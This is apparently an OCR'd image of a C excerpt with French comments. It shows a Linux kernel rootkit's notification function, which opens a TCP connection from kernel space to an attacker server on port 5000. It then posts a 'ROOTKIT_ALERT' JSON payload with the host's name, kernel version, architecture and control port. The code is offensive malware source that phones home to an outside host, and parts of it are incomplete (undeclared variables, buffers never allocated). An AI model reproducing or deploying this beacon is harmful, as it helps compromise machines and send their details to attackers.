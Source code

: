 ```c
// Client HTTP dans notification.c
int notifier_attaquant(void)
{
    struct socket *sock;
    struct sockaddr_in addr;
    struct msghdr msg;
    struct kvec iov;
    char *json_data, *http_request;
    
    // Creation socket client TCP
    ret = sock_create(AF_INET, SOCK_STREAM, IPPROTO_TCP, &sock);
    
    // Configuration adresse attaquant
    addr.sin_family = AF_INET;
    addr.sin_port = htons(5000);
    ret = in4_pton(SERVEUR_ATTAQUANT, -1, ip_binary, -1, NULL);
    memcpy(&addr.sin_addr.s_addr, ip_binary, sizeof(addr.sin_addr.s_addr));
    
    // Connexion TCP
    ret = sock->ops->connect(sock, (struct sockaddr *)&addr, sizeof(addr), 0);
    
    // Construction payload JSON avec informations systeme
    snprintf(json_data, 1024, 
             "{"
             "\"type\":\"ROOTKIT_ALERT\","
             "\"hostname\":\"%s\","
             "\"kernel\":\"%s %s\","
             "\"architecture\":\"%s\","
             "\"status\":\"INSTALLE ET ACTIF\","
             "\"port_controle\":%d,"
             "\"timestamp\":%lld"
             "}",
             utsname()->nodename, utsname()->sysname, utsname()->release,
             utsname()->machine, PORT_CONTROLE, ktime_get_real_seconds());
    
    // Construction requete HTTP POST
    snprintf(http_request, 2048,
             "POST /api/receive_notification HTTP/1.1\r\n"
             "Host: %s:5000\r\n"
             "Content-Type: application/json\r\n"
             "Content-Length: %zu\r\n"
             "Connection: close\r\n"
             "\r\n"
             "%s",
             SERVEUR_ATTAQUANT, strlen(json_data), json_data);
    
    // Envoi via kernel_sendmsg
    iov.iov_base = http_request;
    iov.iov_len = strlen(http_request);
    ret = kernel_sendmsg(sock, &msg, &iov, 1, strlen(http_request));
}
```
